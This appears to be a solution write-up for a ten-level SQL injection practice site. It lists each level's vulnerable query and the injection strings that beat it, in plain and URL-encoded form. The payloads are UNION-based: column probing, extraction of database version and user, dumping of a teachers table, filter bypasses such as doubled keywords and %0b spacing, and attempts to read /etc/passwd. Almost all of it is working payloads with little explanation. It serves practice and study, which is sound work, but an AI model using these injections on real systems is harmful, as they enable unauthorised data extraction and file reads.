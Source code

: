 **LEVEL 1**

- Full request:

```
SELECT * FROM some_table WHERE some_field = [USER INPUT];
```

- Injections:

```
1 UNION SELECT 1, 2
1%20UNION%20SELECT%201,%202

1 UNION SELECT 1, 2, 3
1%20UNION%20SELECT%201,%202,%203

-1 UNION SELECT VERSION(), USER(), 3
-1%20UNION%20SELECT%20VERSION(),%20USER(),%203
```

**LEVEL 2**

- Full request:

```
SELECT * FROM some_table WHERE some_field = '[USER INPUT]';
```

- Injections:

```
"4'--%20"

"4--%20"

"4' UNION SELECT 1, 2, 3 -- "
4'%20UNION%20SELECT%201,%202,%203%20--%20

"4' UNION SELECT 1, 2, 3, 4 -- "
4'%20UNION%20SELECT%201,%202,%203,%204%20--%20

"-1' UNION SELECT VERSION(), USER(), 3, 4 -- "
-1'%20UNION%20SELECT%20VERSION(),%20USER(),%203,%204%20--%20
```

**LEVEL 3**

- Full request:

```
SELECT * FROM some_table WHERE some_field = 'INPUT';
```

- Injections:

```
"3' UNION SELECT 1 -- "
3'%20UNION%20SELECT%201%20--%20

"3' UNION SELECT 1, 2, 3, 4 -- "
3'%20UNION%20SELECT%201,%202,%203,%204%20--%20

"-1' UNIONON SELECT VERSION(), USER(),  3, 4 -- "
-1'%20UNIONON%20SELECT%20VERSION(),%20USER(),%203,%204%20--%20
```

**Level 4**

- Full request:

```
SELECT * FROM some_table WHERE some_field = 'INPUT';
```

- Injections:

```
"6' UNION SELECT VERSION(), USER(), 3, 4, 5 -- "
6'%20UNION%20SELECT%20VERSION(),%20USER(),%203,%204,%205%20--%20
```

**Level 5**

```
https://www.zixem.altervista.org/SQLi/md5cracker.php?hash=d1fd6ef9af6cb677e09b1b0a68301e0c

https://www.zixem.altervista.org/SQLi/login_do.php?pass=zixemhf
```

**Level 6**

- Full request:

```
SELECT * FROM some_table WHERE some_field = INPUT;
```

- Injections:

```
-1 UNION SELECT 1, 2, 3, 4
-1%20UNION%20SELECT%201,%202,%203,%204

-1 UNION SELECT 1, 2, 3, 4 FROM teachers
-1%20UNION%20SELECT%201,%202,%203,%204%20FROM%20teachers

-1 UNION SELECT id, 2, 3, 4 FROM teachers WHERE id = 11
-1%20UNION%20SELECT%20id,%202,%203,%204%20FROM%20teachers%20WHERE%20id%20=%2011

-1 UNION SELECT id, teacher, teacher_age, price FROM teachers WHERE id = 11
-1%20UNION%20SELECT%20id,%20teacher,%20teacher_age,%20price%20FROM%20teachers%20WHERE%20id%20=%2011
```

**Level 7**

- Full request:

```
SELECT * FROM some_table WHERE some_field = INPUT;
```

- Injections:

```
1'--%20

1 UNION SELECT 1, 2
1%20UNION%20SELECT%201,%202

1 UNION SELECT 1, 2, 3
1%20UNION%20SELECT%201,%202,%203

-1 UNION SELECT 1, version(), 3
-1%20UNION%20SELECT%201,%20version(),%203

-1 UNION SELECT 1, user(), 3
-1%20UNION%20SELECT%201,%20user(),%203
```

**Level 8**

- Full request:

```
SELECT * FROM some_table WHERE some_field = INPUT;
```

- Injections:

```
-1 UNION SESELECTLECT VERSION(),USER(),3
-1%20UNION%20SESELECTLECT%20VERSION(),USER(),3

-1%0bUNION%0bSESELECTLECT%0bVERSION(),USER(),3
```

**Level 9**

- Full request:

```
SELECT * FROM some_table WHERE some_field = 'INPUT';
```

- Injections:

```
"1' UNION SELECT 1, 2 -- "
1'%20UNION%20SELECT%201,%202%20--%20

"-1' UNION SELECT '/etc/passwd',2 -- "
-1'%20UNION%20SELECT%20'/etc/passwd',2%20--%20

"-1' UNION SELECT '../etc/passwd',2 -- "
-1'%20UNION%20SELECT%20'../etc/passwd',2%20--%20
```

**Level 10**

- Full request:

```
SELECT * FROM some_table WHERE some_field = INPUT;
```

- Injections:

```
2 UNION SELECT 1, user()

2 UNION SELECT 1, version()
```